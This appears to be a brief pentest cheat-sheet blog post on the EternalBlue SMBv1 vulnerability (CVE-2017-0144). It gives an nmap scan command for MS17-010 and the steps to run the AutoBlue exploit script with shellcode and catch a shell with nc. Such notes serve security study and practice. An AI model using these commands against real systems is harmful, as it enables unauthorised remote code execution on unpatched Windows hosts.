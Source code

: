 ```yaml
---
title: 'Eternal Blue'
description: ''
pubDate: 'Jul 03 2022'
tag: ['windows', 'eternal blue']
slug: vuln/eternal-blue
---
```


CVE-2017-0144

- It's a collection of Windows vulnerabilities and exploits that allow RCE.

- Devoped by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group Shadow Brokers.

- Exploit SMBv1 protocol.

```bash
nmap -p445 -sCV --script=smb-vuln-ms17-010 target
```

Execute this 3ndG4me/Autoblue-ms17-010 and listen nc

```bash
python eternalblue_exploit7.py target shellcode/sc_x64.bin
```
